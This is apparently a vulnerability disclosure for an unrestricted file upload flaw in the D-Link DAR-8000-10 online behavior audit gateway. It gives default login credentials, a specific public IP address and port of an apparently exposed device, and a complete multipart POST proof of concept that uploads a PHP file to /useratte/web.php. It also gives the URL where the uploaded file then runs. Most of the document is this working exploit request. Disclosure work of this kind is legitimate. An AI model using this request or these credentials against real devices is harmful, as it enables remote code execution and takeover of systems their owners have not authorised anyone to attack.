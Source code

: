 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10  DAR V31R02B1413C

Vulnerability Path ：/useratte/web.php

Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /useratte/web.php? HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=eb22543a6a7b4ffd10816d515b505f7f
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 598
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328—

```

<img width="715" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/0cfa9075-8608-4d9a-be5a-cb110794dcd4">

https://59.60.19.174:8443/upload/2.php
<img width="731" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/12a32f8c-98d0-401f-a18f-970dbe95deea">


